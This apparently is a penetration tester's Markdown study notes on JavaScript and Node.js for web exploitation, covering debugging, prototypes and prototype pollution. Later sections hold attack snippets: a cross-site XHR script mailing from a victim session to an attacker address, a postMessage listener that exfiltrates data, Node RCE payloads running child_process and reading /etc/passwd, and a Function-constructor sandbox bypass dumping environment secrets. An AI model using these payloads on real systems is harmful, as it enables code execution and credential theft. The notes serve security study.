




>[!warning]
>JavaScript uses a prototypal inheritance model, which is quite different from the class-based model used by many other languages.

>[!tip] Breakpoint
>If you insert `debugger;` anywhere in the JS code, the execution will pause when that instruction is reached.

>[!tip] Snippets and handy books
>- [JS AWAE Prep](https://mlcsec.com/posts/js-awae-prep/), mlcsec.com
>- [JavaScript for hackers - Gareth Heyes](../../Personal/Book%20list/JavaScript%20for%20hackers%20-%20Gareth%20Heyes.md)

# Install and run a custom Node app

NodeJS download: https://nodejs.org/en/download

```bash
mkdir nodeapp
npm init
npm install express # use --save to save it as a dependencies, otherwise it will be added temporarily 
```

## Remote Debugging NodeJS with VSCode

[Visual Studio Code](../Tools/vscode.md) has support for Node.js debugging built right in!

Edit the `.vscode/launch.json` file as follows: [^blog]

[^blog]: [Remote Debugging Node.js with VS Code](https://maikthulhu.github.io/2019-05-17-remote-debugging-node-vscode/), maik's blog

```json
{
    // Use IntelliSense to learn about possible attributes.
    // Hover to view descriptions of existing attributes.
    // For more information, visit: https://go.microsoft.com/fwlink/?linkid=830387
    "version": "0.2.0",
    "configurations": [
        {
            "type": "node",
            "request": "launch",
            "name": "Launch Program",
            "program": "${file}"
        },
        {
            "type": "node",
            "request": "attach",
            "name": "Attach to remote",
            "address": "localhost",
            "port": 9229
        }
    ]
}
```

And create an [SSH Tunnel](../Services/SSH%20&%20SFTP.md#SSH/SFTP%20Tunneling) in order to make the remote server's debug interface available to localhost (by default, NodeJS listens only on its own localhost because debug data are sent with [WebSockets](../Web%20&%20Network%20Hacking/WebSockets.md), which are clear-text): `ssh -L 9229:127.0.0.1:9229 maik@remote-node-host`

For **breaking right at the start** of the program: `node --inspect-brk index.js` 

# JS 101
## Interchangeable syntax

```jsx
> user = {"name":"0xbro", "role":"admin"};
Object { name: "0xbro", role: "admin" }

> console.log(user.name);
0xbro

console.log(user['name']);
0xbro
```

## Objects and `Object`

>[!tip]
>**Objects** are simply a **collection of key and value pairs.**

```jsx
> user = {"name":"0xbro","role":"admin"}
Object { name: "0xbro", role: "admin" }

> user.name
"0xbro"
> user
Object { name: "0xbro", role: "admin" }
name: "0xbro"
role: "admin"
<prototype>: Object { … }
__defineGetter__: function __defineGetter__()
__defineSetter__: function __defineSetter__()
__lookupGetter__: function __lookupGetter__()
__lookupSetter__: function __lookupSetter__()
__proto__: 
constructor: function Object()
hasOwnProperty: function hasOwnProperty()
isPrototypeOf: function isPrototypeOf()
propertyIsEnumerable: function propertyIsEnumerable()
toLocaleString: function toLocaleString()
toString: function toString()
valueOf: function valueOf()
<get __proto__()>: function __proto__()
<set __proto__()>: function __proto__()

```

`Object` is a basic object. It is the template for all newly created objects.
It is possible to create an empty object by passing `null` to `Object.create`

```jsx
> Object.create(null);
Object {  }

> console.log(Object.create(null))
Object {  }
```

that results to be just an empty dictionary: `{}`

## Functions and Classes

>[!tip]
>In JavaScript “class” and “function” are interrelated, the “function” itself acts as the constructor for the class). **Class, functions** and **objects** also shares the **same exact structure.**

"Class" definition:
```jsx
function person(fullName, age) {
    this.age = age;
    this.fullName = fullName;
    this.details = function() {
        return this.fullName + " has age: " + this.age;
    }
}
```


Object initialization:

```jsx
var person1 = new person("0xbro", 24);
```


## Prototypes

Every object in JavaScript is linked to another object of some kind, known as its prototype. By default, JavaScript automatically assigns new objects one of its built-in prototypes. 
>[!example] 
>strings are automatically assigned the built-in `String.prototype`.

Objects automatically inherit all of the properties of their assigned prototype, unless they already have their own property with the same key. This enables developers to create new objects that can reuse the properties and methods of existing objects.

One thing to note is that the prototype’s attributes can be changed/modified/deleted when executing the code and their reflects directly on any related object.

```jsx
> person.prototype.addFunc1 = function(){return "Func1";}
function addFunc1()

> person1.__proto__.addFunc2 = function(){return "Func2";}
function addFunc2()

> person1.addFunc1()
"Func1"
> person1.addFunc2()
"Func2"

> person1.toString()
"[object Object]"
> person.prototype.toString = function(){return "ToString has been changed";}
function toString()

> person1.toString()
"ToString has been changed"
```

### Inheritance

>[!tip]
>In a prototype-based program, **objects inherit properties/methods from classes**. 
The classes are derived by adding properties/methods to an instance of another class or by adding them to an empty object.

Whenever you reference a property of an object, the JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead.



Crucially, objects inherit properties not just from their immediate prototype, but from all objects above them in the prototype chain. In the example below, this means that the `username` object has access to the properties and methods of both `String.prototype` and `Object.prototype`.



>[!danger] 
>`for...in` loop iterates over all of an object's enumerable properties, including ones that it has inherited via the prototype chain.
>This also applies to arrays, where a `for...in` loop first iterates over each index, which is essentially just a numeric property key under the hood, before moving on to any inherited properties as well.

```js
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo

const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```

### `__proto__`

Every object has a special property that you can use to access its prototype. Although this doesn't have a formally standardized name, `__proto__` is the de facto standard used by most browsers. If you're familiar with object-oriented languages, this property serves as both a getter and setter for the object's prototype. This means you can use it to read the prototype and its properties, and even reassign them if necessary.

```js
// As with any property, you can access `__proto__` using either bracket or dot notation
username.__proto__
username['__proto__']

// You can even chain references to __proto__ to work your way up the prototype chain:
username.__proto__                        // String.prototype
username.__proto__.__proto__              // Object.prototype
username.__proto__.__proto__.__proto__    // null
```

### Modifying prototypes

Although it's generally considered bad practice, it is possible to modify JavaScript's built-in prototypes just like any other object. This means developers can customize or override the behavior of built-in methods, and even add new methods to perform useful operations.

```js
String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}

// Thanks to the prototypal inheritance, all strings would then have access to this method
let searchTerm = "  example ";
searchTerm.removeWhitespace();    // "example"
```

This behavior can expose the application to [Prototype Pollution](../Web%20&%20Network%20Hacking/Prototype%20Pollution.md) vulnerabilities, both client-side or server-side. 

### Array elements pollution

Note that as you can pollute attributes of objects in JS, if you have access to pollute an array you can also **pollute values of the array** accessible **by indexes** (note that you cannot overwrite values, so you need to pollute indexes that are somehow used but not written).

```jsx
c = [1,2]
a = []
a.constructor.prototype[1] = "yolo"
b = []
b[0] //undefined
b[1] //"yolo"
c[1] // 2 -- not
```

## `fetch()`

The `Fetch` API provides a simple way for developers to trigger HTTP requests using JavaScript. Two arguments:
- URL to which you send the request
- Options object containing method, headers, body parameters, etc.

```js
fetch('https://normal-website.com/my-account/change-email', { method: 'POST', body: 'user=carlos&email=carlos%40ginandjuice.shop' })
```

## **XMLHttpRequest (XHR)**

```bash
var email = "attacker@offsec.local";
var subject = "hacked!";
var message = "This is a test email!";
function send_email()
{
	var uri ="/index.php/mail/composemessage/send/tabId/viewmessageTab1";
	var query_string = "?emailTo=" + email + "&emailSubject=" + subject + "&emailBodyHtml=" + message;
	xhr = new XMLHttpRequest();
	xhr.open("GET", uri + query_string, true);
	xhr.send(null);
}
send_email();
```

Parse responses:

```bash
function read_body(xhr) {
	var data;
	if (!xhr.responseType || xhr.responseType === "text") {
		data = xhr.responseText;
	} else if (xhr.responseType === "document") {
		data = xhr.responseXML;
	} else if (xhr.responseType === "json") {
		data = xhr.responseJSON;
	} else {
		data = xhr.response;
	}
	return data;
}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
	console.log(read_body(xhr));
	}
}
xhr.open('GET', 'http://www.google.com', true);
xhr.send(null);
```

## PostMessage and EventListener

Listen for incoming messages:
```html
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

Send messages to the top parent windows from an `iframe`:
```html
<script>
parent.postMessage({type: 'onload', data: window.location.href}, '*')
...
</script>
```

# RCE payloads

```jsx
require('util').format('%s', 'hacked')
require('child_process').exec('id')
require('fs').readFileSync('/etc/passwd')
global.process.mainModule.require(child_process).exec('id')
process.mainModule.require('child_process').execSync('echo+0xbro').toString()
```

## Debug your code inside `eval`

We thought we were in the clear by identifying arbitrary command execution but because of the sandboxing we have to start from square one. Our first big step will be to identify what access our payload has while executing. [^escape-nodejs]

[^escape-nodejs]: [Escape NodeJS Sandboxes - Recon](https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/)

Payload to generate and print a stack trace to standard out:
```js
function stackTrace() {
var err = new Error();
print(err.stack);
}
```

Identity the current code context:
```js
> print(JSON.prune(this))
{
"console": {},
"global": "-pruned-",
"process": {
"title": "/usr/local/nvm/versions/node/v8.9.0/bin/node",
"version": "v8.9.0",
"moduleLoadList": [ ... ],
...
}
```

Debug and find other functions:
```js
> var fs = this.process.binding('fs');
> print(JSON.prune(fs));
{
"access": "func access()",
"close": "func close()",
"open": "func open()",
"read": "func read()",
...
"rmdir": "func rmdir()",
"mkdir": "func mkdir()",
...
```


## String evaluation and bypasses using indirect access

Reference: https://jwlss.pw/mathjs/

There are four standard ways to evaluate strings in JavaScript:

- `eval("code")`
- `new Function("code")`
- `setTimeout("code", timeout)`
- `setInterval("code", interval)`

However, they can be accessed indirectly: **`Function` can be accessed indirectly as the constructor of an existing function**

```js
Function("return 1")
// can be replaced with
Math.floor.constructor("return 1")
Math.floor.constructor("return 1")() // to evaluate `return 1`,

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<redacted>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<redacted>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<redacted>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

# XSS

.md#XSS%20cheat%20sheets%20&%20filtering%20bypass)